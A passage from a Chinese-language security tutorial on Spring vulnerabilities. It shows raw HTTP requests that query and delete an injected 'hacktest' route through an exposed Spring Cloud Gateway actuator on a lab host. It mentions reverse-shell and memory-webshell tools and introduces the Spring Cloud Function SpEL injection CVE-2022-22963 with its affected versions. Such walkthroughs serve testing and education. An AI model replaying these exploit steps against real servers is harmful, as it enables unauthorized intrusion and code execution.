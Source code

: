 ### 第三步查看命令：

```
GET /actuator/gateway/routes/ HTTP/1.1
Host: 192.168.2.66:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 0


```

![](/zj_img/WEBRESOURCEa58b1c4b26327430c4bd453ade6fac2d截图.png)

### 第四步删除路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.2.66:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 0

 
```

![](/zj_img/WEBRESOURCE9bae7b9e290ff120c2e82989851572de截图.png)

刷新后，重新访问：

![](/zj_img/WEBRESOURCE6f7ece131ca1d0ef650051a88b8644a1截图.png)

目前有发现直接反弹shell工具，以及数量不多的内存马工具。

![](/zj_img/WEBRESOURCEa1c9f9076ad61c8e82f5a8cd8b08da81截图.png)

## 7、Spring Cloud Function SpEL 表达式注入 CVE-2022-22963

Spring Cloud Function是基于Spring Boot 的函数计算框架（FaaS）,当其启用动态路由functionRoute时，HTTP请求头spring.cloud.function.routing-expression参数存在SPEL表达式注入漏洞，恶意攻击者可通过此漏洞发送恶意请求，在服务器执行任意代码。

3.0.0.M3 <= Spring Cloud Function <=3.2.2
